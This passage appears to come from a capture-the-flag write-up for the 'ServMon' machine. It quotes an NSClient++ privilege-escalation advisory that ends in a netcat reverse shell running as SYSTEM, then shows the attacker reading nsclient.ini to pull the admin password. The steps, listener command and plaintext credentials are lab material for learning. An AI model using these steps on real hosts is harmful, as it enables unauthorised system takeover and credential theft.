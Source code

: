 ```

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
   - foobar
      interval = 1m
      command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
   nc -nlvvp 443
   listening on [any] 443 ...
   connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
   Microsoft Windows [Version 10.0.17134.753]
   (c) 2018 Microsoft Corporation. All rights reserved.

   C:\Program Files\NSClient++>whoami
   whoami
   nt authority\system
   
Risk:
The vulnerability allows local attackers to escalate privileges and execute arbitrary code as Local System

```
Okay we follow the instruction from the note


```
===================================================================
From note
===================================================================
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
 C:\Program Files\NSClient++>nscp web -- password --display
 Current password: SoSecret

===================================================================
From attacker
===================================================================

Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.
                                                    
nadine@SERVMON C:\Users\Nadine>cd C:\Program Files\NSClient++

nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
´╗┐# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all                                  
# If you want to activate a module and bring in all its options use:                    
#   nscp settings --activate-module <MODULE NAME> --add-defaults                        
# For details run: nscp settings --help                                                 
                                                                                        
                                                                                        
; in flight - TODO                                                                      
[/settings/default]                                                                     
                                                                                        
; Undocumented key                                                                      
password = ew2x6SsGTxjRwXOT                                                             
                               
; Undocumented key             
allowed hosts = 127.0.0.1      
                               
```